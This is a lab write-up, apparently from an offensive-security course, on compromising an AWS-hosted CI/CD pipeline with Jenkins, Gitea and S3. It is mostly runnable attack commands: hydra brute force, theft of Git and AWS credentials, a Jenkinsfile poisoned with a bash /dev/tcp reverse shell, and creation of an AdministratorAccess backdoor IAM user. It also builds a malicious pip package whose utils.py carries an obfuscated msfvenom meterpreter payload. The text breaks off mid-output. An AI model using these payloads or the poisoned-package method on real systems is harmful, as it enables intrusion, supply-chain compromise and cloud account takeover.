





# AWS Cloud Attack

[OWASP Top 10 Risks for CI/CD Pipeline](https://owasp.org/www-project-top-10-ci-cd-security-risks/)

* CICD-SEC-1: [Insufficient Flow Control Mechanisms](https://owasp.org/www-project-top-10-ci-cd-security-risks/)
* CICD-SEC-2: [Inadequate Identity and Access Management](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-02-Inadequate-Identity-And-Access-Management)
* CICD-SEC-3: [Dependency Chain Abuse](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-03-Dependency-Chain-Abuse)
* CICD-SEC-4: [Poisoned Pipeline Execution (PPE)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)
* CICD-SEC-5: [Insufficient PBAC (Pipeline-Based Access Controls)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-05-Insufficient-PBAC)
* CICD-SEC-6: [Insufficient Credential Hygiene](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-06-Insufficient-Credential-Hygiene)
* CICD-SEC-7: [Insecure System Configuration](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-07-Insecure-System-Configuration)
* CICD-SEC-8: [Ungoverned Usage of 3rd Party Services](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-08-Ungoverned-Usage-of-3rd-Party-Services)
* CICD-SEC-9: [Improper Artifact Integrity Validation](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-09-Improper-Artifact-Integrity-Validation)
* CICD-SEC-10: [Insufficient Logging and Visibility](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-10-Insufficient-Logging-And-Visibility)

## Glossar

Poisoned Pipeline Execution (PPE) is when an attacker gains control of the build/deploy script, potentially leading to a reverse shell or secret theft.

Insufficient Pipeline-Based Access Controls (PBAC) means the pipeline lacks proper protection of secrets and sensitive assets, which can lead to compromise.

Insufficient Credential Hygiene refers to weak controls over secrets and tokens, making them vulnerable to leaks or escalation.

Dependency Chain Abuse occurs when a malicious actor tricks the build system into downloading harmful code, either by hijacking an official dependency or creating similarly named packages.

Insufficient Pipeline-Based Access Controls means pipelines have excessive permissions, making systems vulnerable to compromise.

Insecure System Configuration involves misconfigurations or insecure code in pipeline applications.

Improper Artifact Integrity Validation allows attackers to inject malicious code into the pipeline without proper checks.

## Lab Details

```plaintext
Compenents
Gitea       git.offseclab.io
Jenkins     automation.offseclab.io
Application app.offseclab.io
```

Attacker (public cloud)

```shell
# get network connections
nmcli connection

# set private DNS
sudo nmcli connection modify "Wired connection 1" ipv4.dns "<DNS-IP>,8.8.8.8"
sudo systemctl restart NetworkManager

#verify
cat /etc/resolv.conf
nslookup git.offseclab.io

# uset private DNS finally
sudo nmcli connection modify "Wired connection 1" ipv4.dns "8.8.8.8"
sudo systemctl restart NetworkManager
```

## From Leaked Secrets to Jenkins Pipeline Poisoning

Scenario

* Enum public AWS hostest CI/CD pipeline with Jenkins buildserver, Git repo and App
* Find AWS S3 bucket address in the App source code
* Download S3 bucket content to steal Git credentials
* Get **initial access** to Git repo
* Enum Git Repo using the Git credentials
* Modify pipeline Jenkinsfile to spawn a reverse shell
* Get **initial access** to Jenkins buildserver
* Find AWS cloud user credentials in Jenkins environment variables
* Enum AWS cloud user to understand roles and policies attached to the user
* Finally, add AWS cloud backdoor user with role "AdministratorAccess"
* Get **persistence** on compromised AWS account

### Enum public AWS hostest CI/CD pipeline with Jenkins buildserver, Git repo and App

* Enum Jenkins buildserver using metasploit plugin `jenkins_enum`
* Found version 2.385 -> Search for public exploits later

```shell
firefox automation.offseclab.io

sudo msfdb init
msfconsole --quiet

# use metasploit jenkins plugin
use auxiliary/scanner/http/jenkins_enum
show options

# default target URI is /jenkins
set RHOSTS automation.offseclab.io
set TARGETURI /
run

  [+] <TARGET-IP>:80      - Jenkins Version 2.385
  [*] /script restricted (403)
  [*] /view/All/newJob restricted (403)
  [*] /asynchPeople/ restricted (403)
  [*] /systemInfo restricted (403)
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed

# use go buster to find more directories
gobuster dir -u <target-ip> -w /usr/share/wordlists/dirb/common.txt -t 4
```

* Enum Git repo to get users names
* Guess user passwords using `hydra` (be aware of CSRF token)

```shell
firefox git.offseclab.io

# Guess user password using brute force attack
# Find incorrect user login message
hydra -L /tmp/user-names.txt -P /usr/share/wordlists/rockyou.txt git.offseclab.io http-post-form "/user/login:_csrf=mOJ1qnfH_EyzW8yd05E12jmc-Dg6MTc2MzM5Nzc3NzQ2MTg3NDcwOQ&user_name=^USER^&password=^PASS^:incorrect" 

# Login into Git accout to get user details 
{
  "login": "user",
  "email": "user@offseclab.io",
  "avatar_url": "https://secure.gravatar.com/avatar/339da0631f49cd954db4143676990f06?d=identicon",
  "language": "en-US",
  "is_admin": false,
  "last_login": "2025-11-17T17:21:15Z",
  "created": "2025-11-17T15:59:08Z",
  "restricted": false,
  "active": true,
}
```

* Enum Web App for common folders using `dirb` or `gobuster`
* Find S3 bucket reference in App source code using `curl -s`
* Enum S3 bucket for common folders
* Found Git repo on public S3 bucket

```shell
firefox http://app.offseclab.io

# Find common folders on the web app
dirb http://app.offseclab.io /usr/share/wordlists/dirb/common.txt

# Download source code
curl -s app.offseclab.io

# Enum S3 bucket for common folders
dirb https://staticcontent-lgudbhv8syu2tgbk.s3.us-east-1.amazonaws.com ./dirb-common-first50.txt
+ https://staticcontent-4rbihrg6qtl7051b.s3.us-east-1.amazonaws.com/.git/HEAD (CODE:200|SIZE:23)
```

### Download S3 bucket content to steal Git credentials

* Configure attacker profile to use `aws` API
* List S3 bucket content using `aws s3 ls`
* Download full S3 bucket content using `aws s3 sync`

```shell
aws configure --profile attacker
AWS Access Key ID []: AK
AWS Secret Access Key []: asdf...

#List S3 bucket content
aws --profile attacker s3 ls staticcontent-4rbihrg6qtl7051b
                           PRE .git/
                           PRE images/
                           PRE scripts/
                           PRE webroot/
2025-11-17 16:59:11        972 CONTRIBUTING.md
2025-11-17 16:59:11         79 Caddyfile
2025-11-17 16:59:11        407 Jenkinsfile
2025-11-17 16:59:11        879 README.md
2025-11-17 16:59:11        176 docker-compose.yml

# Download full S3 bucket content
mkdir s3bucket
aws --profile attacker s3 cp s3://staticcontent-lgudbhv8syu2tgbk/README.md ./s3bucket/
aws --profile attacker s3 sync s3://staticcontent-lgudbhv8syu2tgbk ./s3bucket/

# Search files and folders for credentials
cat s3bucket/scripts/upload-to-s3.sh

SCRIPT_DIR=$( cd -- "$( dirname -- "${BASH_SOURCE[0]}" )" &> /dev/null && pwd )
AWS_PROFILE=prod aws s3 sync $SCRIPT_DIR/../ s3://staticcontent-4rbihrg6qtl7051b/

cat -n s3bucket/scripts/update-readme.sh
...
  username=$1
  password=$2

  auth_header=$(printf "Authorization: Basic %s\n" "$(echo -n "$username:$password" | base64)")
  USERNAMES=$(curl -X 'GET' 'http://git.offseclab.io/api/v1/repos/Jack/static_content/collaborators' -H 'accept: application/json' -H $auth_header | jq .\[\].username |  tr -d '"')
```

### Get **initial access** to Git repo

* Search files and folders for credentials with `gitleak detect`
* Search for credentials in git log with `git log -p`
* Find Jenkinsfile pipeline with aws_key access

We find that credentials named "aws_key" are loaded here. This will set the environment variables AWS_ACCESS_KEY_ID for the access key ID, AWS_SECRET_ACCESS_KEY for the secret key, and AWS_DEFAULT_REGION for the region.

```shell
# Search for leaked credentials
cd s3bucket
gitleaks detect

# Search git log for credentials
git log
git log -p scripts/update-readme.sh  
echo -n "abCDeF" | base64 -d
administrator:securepassword  
```

### Enum Git Repo using the Git admin credentials

```shell
# Find Jenkinsfile pipeline with aws_key access
mkdir clone && cd clone
git clone http://git.offseclab.io/adminuser/image-transform

cat image-transform/Jenkinsfile

stage('Create Stack') {
  steps {
    withAWS(region:'us-east-1', credentials:'aws_key') {
      cfnUpdate(
        stack:'image-processor-stack', 
        file:'image-processor-template.yml', 
        params:[
          'OriginalImagesBucketName=original-images-lgudbhv8syu2tgbk',
          'ThumbnailImageBucketName=thumbnail-images--lgudbhv8syu2tgbk'
        ], 
        timeoutInMinutes:10, 
        pollInterval:1000)
}
```

### Modify pipeline Jenkinsfile to spawn a reverse shell

* Listen for incoming connections on kali linux using `apache` and `nc`
* Modify Jenkinsfile to spawn a reverse shell using `bash -i >& /dev/tcp/attacker-ip/4242 0>&1`

Attacker

```shell
# Get public IP and start nc listener
ip address
nc -nlvp 4242
```

Victim

```shell
cat image-transform/Jenkinsfile
pipeline {

  agent any
  stages {
    stage('Send Reverse Shell') {
      steps {
        withAWS(region: 'us-east-1', credentials: 'aws_key') {
          script {
            if (isUnix()) {
              sh 'curl http://attacker-ip/probe.html'
              sh 'bash -c "bash -i >& /dev/tcp/attacker-ip/4242 0>&1" & '
            }
          }
        }
      }
    }
  }
}

git commit -a -m "Send Reverse Shell implant"
git push
```

### Get **initial access** to Jenkins buildserver

```shell
Listening on 0.0.0.0 4242
Connection received on TARGET-IP PORT

~/agent/workspace/image-transform$ 
whoami
jenkins
```

### Find AWS cloud user credentials in Jenkins environment variables

```shell
# Enumerate Jenkins buildserver
uname -a
cat /etc/*release
cat /proc/mounts

# Found AWS account key and secret
env | grep AWS
AWS_DEFAULT_REGION=us-east-1
AWS_REGION=us-east-1
AWS_SECRET_ACCESS_KEY=asfd1234...
AWS_ACCESS_KEY_ID=AKIU...
```

### Enum AWS cloud user to understand roles and policies attached to the user

* Enum current user and list user policy `aws iam list-user-policies`
* Find user roles policy has privileged permissions `aws iam get-user-policy`

```shell
aws configure --profile compromised
AWS Access Key ID []: AKIU...
AWS Secret Access Key []: asfd1234...

# Enum AWS cloud account
aws --profile compromised sts get-caller-identity
{
    "UserId": "AID...",
    "Account": "123456789012",
    "Arn": "arn:aws:iam:123456789012:user/system/jenkins-admin"
}
                                                                                                                             
aws --profile compromised iam list-user-policies --user-name jenkins-admin
{
    "PolicyNames": [
        "jenkins-admin-role"
    ]
}

# Found AWS user policy with privileged permissions
aws --profile compromised iam get-user-policy --user-name jenkins-admin --policy-name jenkins-admin-role
{
    "UserName": "jenkins-admin",
    "PolicyName": "jenkins-admin-role",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": "*",
                "Effect": "Allow",
                "Resource": "*"
            }
        ]
    }
}
```

### Finally, add AWS cloud backdoor user with role "AdministratorAccess"

* Add backdoor user and attach AdministratorAccess policy using `aws iam create-user` and `aws iam attach-user-policy`
* Create AWS access key for backdoor user for persistence using `aws iam create-access-key`

```shell
# Add backdoor user and attach AdministratorAccess policy
aws --profile compromised iam create-user --user-name backdoor
{
    "User": {
        "Path": "/",
        "UserName": "backdoor",
        "UserId": "AIDSome...",
        "Arn": "arn:aws:iam::123456789012:user/backdoor",
        "CreateDate": "2025-11-18T11:23:01+00:00"
    }
}            
aws --profile compromised iam attach-user-policy  --user-name backdoor --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
                                                                                                                             
# Create AWS access key for backdoor user for persistence
aws --profile CompromisedJenkins iam create-access-key --user-name backdoor  
{
    "AccessKey": {
        "UserName": "backdoor",
        "AccessKeyId": "AKIA7890...",
        "Status": "Active",
        "SecretAccessKey": "Oabcd...",
        "CreateDate": "2025-11-18T11:24:09+00:00"
    }
}
```

### Get **persistence** on compromised AWS account

* Configure backdoor profile
* Verify backdoor persistence

```shell
aws configure --profile backdoor
AWS Access Key ID []: AKIA7890...
AWS Secret Access Key []: Oabcd...

# stealth verifications of backdoor acount
aws --profile attacker sts get-access-key-info --access-key-id  AKIA7890...
```

## Dependency Chain Abuse to compromised Environment

Trick a build system to download and run a harmful hijacked dependency to compromise the CI/CD pipelines, developer systems and the full AWS infrastructure.

Scenario

* Enum available Services App, Jenkins buildserver, GIT
* Find missing dependency statement in the logs
* Code and publish such malicious dependency package
* Scan internal network and create a tunnel into automation server
* Exploit a vulnerability in a plugin to steal a AWS credentials
* Find S3 the contains the AWS keys in Terraform state file using the stolen AWS credentials
* Login and create backdoor account

### Enum available Services App, Jenkins buildserver, GIT

```shell
# Open App and inject network traffic
# Find Server info to get fino about reverse proxy and servers
firefox http://app.offseclab.io

# Find API and generate an initial access token
firefox app.offseclab.io/get_token

# Find common folders on the web app
dirb http://app.offseclab.io /usr/share/wordlists/dirb/common.txt

# Use curl to download source code of single page
# Use wget to download offline version (full mirror -m)
mkdir offseclab && cd offseclab
curl -s app.offseclab.io
wget -m -E -k -K -p -e robots=on -H -Dapp.offseclab.io -nd "http://app.offseclab.io"

# Open Source intelligence
# searching for the target's name on websites like Stack Overflow, Reddit, and other forums
firefox http://forum.offseclab.io/

requirements.txt
  Flask~=2.2.3
  flask_httpauth~=4.7.0
  flask_mail~=0.9.1
  flask_restful~=0.3.9
  flask_sqlalchemy~=3.0.3
  python-dotenv~=1.0.0
  requests~=2.25.1
  SQLAlchemy~=2.0.7
  hackshort-util~=1.1.0
```

### Dependency Chain Attack

The dependency chain attack trick a user or build system to download a malicious dependency from a valid or malicious package repository.

* dependency hijacking (contribute malicious code)
* dependency substitution (typesqatting, misspelling)
* dependency confusions (packages with the same name and newer version)

PIP Versioning

* ==: exact version required
* <=: less than or equal
* >=: greater than or equal
* ~=: **patches are compatible**, but not major or minor updates

Observations

* We can conclude that **hackshort_util is from the hackshort-util** package.
* We'll also make note that the utils submodule is imported from the package.

```shell
pip download hackshort-util

ERROR: No matching distribution found for hackshort-util
```

### Creating PIP Packages

This script setup.py will **build, distribute, and install the module with setuptools**. In this file, we will define the package and how to install it. Alternatives: pyproject.toml or setup.cfg.

* Use setup.py to describe the package and later install it
* *find_packages* searches for files within directory structure
* Use init.py to describe the package function
* Call *setup.py sdist* to create a package
* PIP install empty package from dist directory

```shell
python3 -m venv venv && . venv/bin/activate
pip install setuptools
```

```shell
tree -r hackshort-util
hackshort-util
├── setup.py
└── hackshort_util
    └── __init__.py

mkdir -p hackshort-util/hackshort_util

# init.py is required for regualar packages
touch hackshort-util/hackshort_util/__init__.py

# setup.py to install package
cat << 'EOF' > hackshort-util/setup.py
from setuptools import setup, find_packages

setup(
  name='hackshort-util',
  version='1.1.4',
  packages=find_packages(),
  classifiers=[],
  install_requires=[],
  tests_require=[],
)
EOF
```

```shell
# Call *setup.py sdist* to create a package
cd hackshort-util
python3 ./setup.py sdist

running sdist
warning: sdist: standard file not found: should have one of README
...
Creating tar archive
removing 'hackshort-util-1.1.4'

# PIP install empty package from dist directory
pip install dist/hackshort_util-1.1.4.tar.gz

Installing collected packages: hackshort-util
Successfully installed hackshort-util-1.1.4
```

```shell
# Verify package install in a new shell 
python3 -c "import hackshort_util; print(hackshort_util)"
<module 'hackshort_util' from '/home/kali/venv/lib/python3.13/site-packages/hackshort_util/__init__.py'>

# Works uninstall, to create the payload
pip uninstall hackshort-util

Successfully uninstalled hackshort-util-1.1.4
```

### Command Execution during Install

Scenario

* Use **setup.py** for command execution during package install
* Prepare *InstallExec* class to run malicious code
* e.g. spawn a reverse shell

```shell
tree -r hackshort-util
hackshort-util
├── setup.py       # <-- Execution during package install
└── hackshort_util
    └── __init__.py.py

cat ./setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install

class InstallExec(install):
  def run(self):
    install.run(self)
    with open('/tmp/running_during_install', 'w') as f:
      f.write('[!] Code execution during package install')

setup(
  name='hackshort-util',
  version='1.1.4',
  packages=find_packages(),
  classifiers=[],
  install_requires=[],
  tests_require=[],
  cmdclass={'install': InstallExec}
)

# Test 
rm ./dist/hackshort_util-1.1.4.tar.gz

# Install
python3 ./setup.py sdist && pip install ./dist/hackshort_util-1.1.4.tar.gz
cat /tmp/running_during_install
[!] Code execution during package install
```

### Command Execution during Runtime

Scenario

* Use **utils.py** for command execution during package runtime
* Jenkins build server loads functions from *utils.py* submodule
* Utilize *__getattr__* as we don't known what gets called
* Ensure proper exception handling to avoid execute stop

```shell
tree -r hackshort-util
hackshort-util
├── setup.py
└── hackshort_util
    └── __init__.py
    └── utils.py   # <-- Execution during package runtime

cat << 'EOF' > ./hackshort_util/utils.py
import time
import sys

# any called function will continue doing nothing
def standardFunction():
  pass

# get called when required function does not exist
def __getattr__(name):
  pass
  return standardFunction

# sleeping exection handler
def catch_exception(exc_type, exc_value, tb):
  while True:
    time.sleep(1000)

sys.excepthook = catch_exception

EOF

# Test 
rm ./dist/hackshort_util-1.1.4.tar.gz
python3 ./setup.py sdist && pip install ./dist/hackshort_util-1.1.4.tar.gz

# Runtime
# utils.run() does not fail
# division by null does not fail either
python3 -c "from hackshort_util import utils; utils.run(); 1/0"

```

### Adding the Malicious Payload

Scenario

* Package Install and Runtime functionality has been tested successfully
* Use **msvenom** to create a staged reverse_tcp shell in python3
* Use **meterpreter** multi/handler to handle multiple shells 
* Reason: We don't know how much environments install and call it

```shell
msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=attacker-ip LPORT=4488
Payload size: 436 bytes

# Add malicious payload to spawn a reverse shell when utils.py runs
cat << 'EOF' >> hackshort-util/hackshort_util/utils.py

exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UE1LxDAQPTe/IrckGMPuUrvtYgURDyIiuHsTWdp01NI0KZmsVsX/7oYsXmZ4b968+ejHyflA0ekBgvw2fSvbBqHIJQZ/0EGGfgTy6jydaW+pb+wb8OVCbEgW/NcxZlinZpUSX8kT3j7e3O+3u6fb6wcRdUo7a0EHztmyWqmyVFWl1gWTeV6WIkpaD81AMpg1TCF6x+EKDcDELwQxddpJHezU6IGzqzsmUXnQHzwX4nnxQrr6hI0gn++9AWrA8k5cmqNdd/ZfPU+0IDCD5vFs1YF24+QBkacPqLbII9lBVMofhmyDv4L8AerjXyE=')[0]))

EOF

# Create the malicious package
pip uninstall hackshort-util && rm ./dist/hackshort_util-1.1.4.tar.gz
python3 ./setup.py sdist && pip install ./dist/hackshort_util-1.1.4.tar.gz

# Final test must spawn a reverse shell
python3 -c "from hackshort_util import utils"
```
Attacker

```shell
sudo msfdb init
msfconsole

use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4488

# allow multiple session to be spawned
# -j run as jobs
# -z don't interact immediately
set ExitOnSession false
run -jz

sessions -i 1
^Z
```

### Prepare PIP on kali to publish packages

* create pip configuration on kali
* configure the local pypi instance for lab

### Publishing the Malicious Package

* Real-World attack would compromise [pypi.org](https://pypi.org/) Package Index
* Prepare PIP install packages from [pypi.offseclab.io](http://pypi.offseclab.io)
* Prepare `~/.pypirc` resource file with user credentials for package publishing
* Use **twine** to publish the malicious package tar.gz archive from dist

```shell

mkdir -p ~/.config/pip/      
cat << 'EOF' > ~/.config/pip/pip.conf
[global]
index-url = http://pypi.offseclab.io
trusted-host = pypi.offseclab.io 
# defining extra repo sources for pip includes public ones!!! 
# packages with highest versions are prioritized
# extra-index-url = ...

EOF
```

```shell
cat << 'EOF' > ~/.pypirc
[distutils]
index-servers = 
    offseclab 

[offseclab]
repository: http://pypi.offseclab.io/
username: student
password: password   

EOF
```

```shell
tree -r hackshort-util
hackshort-util
├── setup.py       # <-- Execution during package install
└── hackshort_util
    └── __init__.py
    └── utils.py   # <-- Execution during package runtime

# use pipy client twine upload package using twine
twine upload --repository-url http://pypi.offseclab.io/ -u student -p password dist/*

# verify the upload with user credentials
curl -u 'student:password' http://pypi.offseclab.io/hackshort-util/json

# remove, if bad package has been uploaded
curl -u "student:password" \
--form ":action=remove_pkg" \
--form "name=hackshort_util" \
--form "version=1.1.4" \
http://pypi.offseclab.io/

```

### Enum Build System Environment

Scenario

* Initial reverse shell on build environment
* Enum network using netscan.py to search for Jenkins

Initial reverse shell on build environment

```shell
# get networks
meterpreter ifconfig

shell
bash -i
whoami
root

# root in a container
mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/

# print env to find credentials passed to container
printenv

# python3 is installed
ls -lah . 
ls -lah /bin /sbin | grep "python"

# analyze database, etc.
sqlite3 /data/data.db

```

Enum network using netscan.py to search for Jenkins

* Use alternative to nmap tunneled via SSH
* Reason: Very slow
* Upload netscan.py and scan small network ranges /24

```shell
scp ./netscan.py kali@cloud-kali:/home/kali/

# exit shell and upload via meterpreter
^Z
session -i 2
upload netscan.py

# scan networks for Jenkins other web services
python3 netscan.py 
Initiating scan for target IP: 172.18.0.1/24, port range ['80', '443', '8080']
...
Scanning 172.18.0.3
Port 80: OPEN

python3 netscan.py 
Initiating scan for target IP: 172.30.0.30/24, port range ['80', '443', '8080']
...
Scanning 172.30.0.30
Port 8080: OPEN
...

# Found Jenkins login on port 8080 with sign up function
curl -vv http://172.30.0.30:8080
curl -vv http://172.30.0.30:8080/login
...

<h1>Welcome to Jenkins!</h1>
<a href="signup">create an account</a>
```

### Compromise Jenkins

* Run socks 5 proxy on cloud-kali using meterpreter
* Run local SSH tunnel to cloud-kali socks 5 proxy
* Connect to Jenkins build server and create an account
* Enum Jenkins plugins and find vulnerable [S3 Explorer](https://plugins.jenkins.io/s3explorer/)

|  |
| :---: |
| *Pivot to Jenkins via Socks 5 Proxy tunneled via SSH* |

Run socks 5 proxy on cloud-kali using meterpreter

```shell
# configure socks_proxy with meterpreter
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
run -j

# add network route for meterpreter sessions 2
route add 172.30.0.1 255.255.0.0 2
```

|  |
| :---: |
| *Show jobs to ensure socks 5 proxy is running* |

Run local SSH tunnel to cloud-kali socks 5 proxy

```shell
# create and verify ssh tunnel to socks 5 proxy
# -L local forwarding SSH tunnel
# -N no command execute
# -f run in background

ssh -fN -L localhost:1080:localhost:1080 kali@cloud-kali
ss -tulpn
```

Connect to Jenkins build server and create an account

```shell
# confiure socks 5 proxy on port 1080 for firefox
# create a new account jenkins/jenkins
firefox --preferences
firefox 172.30.0.30:8080/login
```

|  |
| :---: |
| *Jenkins connect via socks 5 proxy* |

|  |
| :---: |
| *Jenkins compromised by creating a new account for enumeration* |

### Exploit Jenkins Plugins

* Enum jenkins pipelines and research plugins
* Exploiting S3 Explorer to get AWS credentials from source code
* Enum S3 bucket to find administrator credential in TF state

Enum jenkins pipelines and research plugins

|  |
| :---: |
| *Jenkins plugin S3 Explorer vulnerability security advisory* |

|  |
| :---: |
| *Jenkins plugin S3 Explorer file index.html, explorer.css, explorer.js* |

Application consists of those three files only. Since the page is using JavaScript to explore an S3 Bucket, this means the AWS ID and key should be accessible in the source of the page.

Exploiting S3 Explorer to get AWS credentials from source code

* curl login to Jenkins hould have worked, but did NOT
* Hence exfiltrate aws credential via UI "view page source"

```shell
curl -v \
-c cookie \
--proxy socks5://127.0.0.1:1080 \
http://172.30.0.30:8080/login

curl -v \
-c cookie \
--proxy socks5://127.0.0.1:1080 \
-d "j_username=jenkins&j_password=jenkins&from=%2F&Submit=" \
http://172.30.0.30:8080/j_spring_security_check

curl -v \
-b cookie \
--proxy socks5://127.0.0.1:1080 \
http://172.30.0.30:8080/
```

### Compromise AWS environment

* Create a aws profile with the stolen keys
* List the S3 buckets with stolen account
* Copy the S3 buckets content to find TF-State with Admin credentials
* Login into Admin account and create backdoor profile

```shell
aws --profile=stolen-s3 sts get-caller-identity

    Arn: "arn:aws:iam::123456789012:user/s3_explorer"

aws --profile=compromised-s3 iam list-user-policies --user-name s3_explorer

    An error occurred (AccessDenied) ...

# list all s3 bucket available for this account
aws --profile=compromised-s3 s3api list-buckets
{
    "Buckets": [
        {
            "Name": "company-directory-4xm0tunr38t6vg90",
            "CreationDate": "2025-11-22T13:01:49+00:00"
        },
        {
